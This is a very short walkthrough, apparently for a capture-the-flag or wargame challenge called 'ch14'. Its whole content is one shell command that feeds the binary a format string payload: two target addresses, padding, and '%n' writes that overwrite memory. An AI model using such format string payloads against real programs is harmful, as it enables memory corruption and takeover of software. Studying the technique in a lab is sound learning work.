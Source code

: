 # Walkthrough

```
$ ./ch14 $(python -c 'print "\x88\xfa\xff\xbf\x8a\xfa\xff\xbf%048870x.%9$n.%073660x.%10$n"')
```

